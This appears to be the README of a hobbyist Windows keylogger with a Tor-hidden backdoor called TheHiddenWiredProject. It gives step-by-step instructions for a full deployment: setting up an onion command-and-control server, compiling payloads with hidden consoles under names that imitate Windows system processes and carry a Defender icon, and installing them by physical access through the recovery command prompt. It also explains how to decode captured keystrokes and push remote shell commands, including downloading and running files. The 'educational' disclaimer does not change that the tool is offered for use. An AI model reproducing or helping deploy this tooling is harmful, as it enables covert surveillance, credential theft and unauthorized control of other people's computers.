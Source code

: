 <pre>
THIS PROJECT WAS CREATED FOR EDUCATIONAL AND EXPERIMENTAL PURPOSES ONLY. DO NOT USE IT ON MACHINES THAT ARE NOT YOUR OWN OR THAT ARE NOT PART OF YOUR VIRTUAL LAB!
EVEN IF THE CHOSEN NAMES ARE ULTRA STEALTH, THAT DOES NOT MEAN IT SHOULD BE USED IMPROPERLY!
I take no responsibility for any direct, indirect, or collateral damage resulting from improper or unauthorized use of this tool. Use is entirely under the user's own responsibility.
  

--------------------------------------- TheHiddenWiredProject ---------------------------------------

What is TheHiddenWiredProject?
TheHiddenWiredProject (THWP) is a keylogger with an integrated backdoor designed to be ultra stealthy
because all traffic generated is routed through Tor!

Is it safe?
Yeah bro, it's 100% safe, you can modify the code however you want without issues, while Tor helps
you hide your server (used to listen to the keylogger and use the backdoor).

So I need to set up a server?
Yeah, it's necessary to have a high enough level of anonymity

Is it ready to use?
Absolutely not, you have to compile it yourself, it's super easy, keep reading and I'll explain

Do you recommend it?
Absolutely yes! This tool is extremely compact, yet at the same time ultra stealthy,
you'd never find a keylogger with a Tor-based backdoor on the internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Starts proxy, Brain, and Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Downloaded from the official site, but renamed)
wuasrvs.py ---> Delayed Tor launch to avoid errors
installer.bat ---> Installer from WindowsPE

----------------------------------------------------------------------------------------------------

Let's move on to the boring theory that's necessary to configure the server and compile THWP

Starting with the required tools...

A PC or VM with Linux (I recommend a Debian-based distro like Debian, Ubuntu, Mint, etc.)
A stable internet connection (at least 2Mbitps)

----------------------------------------------------------------------------------------------------
Create and configure the Tor server:

#To avoid issues, become root with "sudo su"

#install apache and tor
sudo apt install apache2 tor

#run at startup automatically
sudo systemctl enable apache2
sudo systemctl enable tor

#start the daemons
sudo systemctl start apache2
sudo systemctl start tor

#configure the apache server
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (this is where the commands the target will execute every 60 seconds go)

#edit the torrc file
sudo nano /etc/tor/torrc

#Add the following information at the end of the file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#The first string "HiddenServiceDir" specifies where tor will save the server config (DO NOT USE CUSTOM DIRECTORY TO AVOID ISSUES, LEAVE IT AS IS)
#The second string hosts on port 80

#Now you need to restart Tor to apply the changes
sudo systemctl restart tor

#If you have doubts go to: https://community.torproject.org/onion-services/setup/
#Or ask ChatGPT

#Now you need to see your tor domain, you can find it with:
cat /var/lib/tor/serverTHWP/hostname

#To avoid issues, become root with "sudo su"

----------------------------------------------------------------------------------------------------

Now you need to configure TheHiddenWiredProject so it routes traffic to your domain,
so edit the file Isass.py, find a variable called "TARGET_ONION" (you’ll find it at the beginning),
and put your domain there (the one ending in .onion that you found in the hostname file)

----------------------------------------------------------------------------------------------------

Now everything is ready! You can test the functionality on a Windows VM, if everything works you can compile everything!

To compile everything you need a Windows machine, we’ll use nuitka to turn our python files into executables.

1) Install Python on the Windows machine (Not from MStore but from the official site)
2) Now open the terminal and type: pip install nuitka (If pip is not found, restart Windows after installing Python)
3) Now type: nuitka --onefile --windows-disable-console file.py

#--onefile = single .exe file
#--windows-disable-console = no prompt when executed

4) Run nuitka for every .py file (Isass.py, WMIHost.py, wuasrvs.py)
5) After compiling all the .py files you need to compile SecurityHealthSystray.bat with Bat-To-Exe-Converter (Look it up online) NOTE: INSTALLER.BAT MUST REMAIN RAW, DO NOT COMPILE IT!
6) Add the defender icon to the .bat file inside the compiler to get an .exe with Defender icon
----------------------------------------------------------------------------------------------------

Now you’re almost done!
Copy the compiled project onto a USB drive, copy the file installer.bat to the main directory of the USB, delete the "WPE" folder
and the result should be this:

E:\\Isass.exe
E:\\Installer.bat
E:\\SecurityHealthSystray.exe
E:\\WMIHost.exe
E:\\wuasrv.exe
E:\\wuasrvs.exe

If it doesn’t match, you messed something up.


How do I install it??
1) Boot Windows
2) Once you are at the lock screen, go to the shutdown menu, hold "SHIFT" while clicking "Restart"
3) You should see on screen "Please wait"
4) After the reboot go to: Troubleshoot > Advanced options > Command prompt
5) Now find the letter of the USB (varies from PC to PC), try from C to J (just type the letter followed by a colon, like "c:")
6) Once you find the USB, run installer.bat
7) The PC will reboot by itself and TheHiddenWiredProject will be installed!
8) Have fun!
----------------------------------------------------------------------------------------------------

How do I check the keys pressed?
Pressed keys are saved on the server at "/var/log/apache2/access.log" in base32 in 32-character stacks, you need to decode them from base32 to plaintext, just look online for "base32 to text", paste the request and you'll see the pressed keys.

Example:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/ORSXG5BBEE======" 404

We only consider the base32 part, so this: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA and this: ORSXG5BBEE======
if we decode them we get:

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

To execute code on the machine via the backdoor, just edit the file: /var/www/html/payloads_httpcmd/default.txt
and write Windows shell code, and it will be executed with the privileges of the current user, we can also download files with curl and execute them.
But be careful, you have to make sure that the shell code is not executed in a loop, because otherwise you risk messing things up, so once you see
the request for the payload, remove the content of default.txt, otherwise the code will be executed every 60 seconds!

----------------------------------------------------------------------------------------------------

HAVE FUN IN AN ETHICAL AND HEALTHY WAY, WITHOUT CAUSING REAL DAMAGE TO PEOPLE, DATA, OR SYSTEMS THAT DO NOT BELONG TO YOU!

                                                             100% created with the mind of ElektroWindows :)
</pre>
